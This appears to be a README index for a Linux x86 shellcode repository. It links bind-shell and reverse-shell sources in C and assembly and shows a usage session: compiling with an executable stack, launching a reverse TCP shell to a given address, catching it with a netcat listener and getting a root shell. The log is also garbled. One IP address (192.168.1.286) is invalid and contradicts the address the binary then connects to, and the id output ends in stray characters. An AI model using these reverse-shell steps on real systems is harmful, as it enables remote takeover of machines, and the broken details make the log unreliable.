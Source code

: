 # [Linux-x86](./README.md)
## Linux/x86 - Shell (/bin/sh)



<div align="center" style="font-size:30px">

# ***Tree***
 ---
#  Linux-x86
#     ╔═════════╩═════════╗
#  [Bind-Shellcode](Bind-Shellcode/README.md)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell](Reverse-Shell/README.md) 
#   ╔══════╩══════╗&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;╔══════╩══════╗
## [Bind-Shellcode.c](Bind-Shellcode/Bind-Shellcode.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Bind-Shellcode.asm](Bind-Shellcode/Bind-Shellcode.asm)    &#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160;[Reverse-Shell.c](Reverse-Shell/Reverse-Shell.c)&#160;&#160;&#160;&#160;&#160;&#160;&#160;&#160; [Reverse-Shell.asm](Reverse-Shell/Reverse-Shell.asm) 
</div>

---

# [Bind-Shellcode](Bind-Shellcode/README.md)

# Linux-x86/Bind-Shellcode
---

# [Reverse-Shell](Reverse-Shell/README.md)

# Linux-x86/Reverse-Shell

        Linux/x86 Reverse TCP Shell with dynamic IP and port binding Shellcode (tested on Ubuntu 12.04 LTS)
        Usage: gcc -z execstack -o shell_reverse_tcp shell_reverse_tcp.c
        $ ./shell_reverse_tcp_shellcode 192.168.1.286 4443
        Connecting to 192.168.1.198 (0xec01a8c0):4443 (0x115c)
        Byte 26: c0
        Byte 27: a8
        Byte 28: 01
        Byte 29: ec
 
        $ nc -nlv 4443
        Listening on 0.0.0.0 4443
        Connection received on 192.168.1.286 45219
        id
        uid=0(root) gid=0(root) groups=0(root)es)
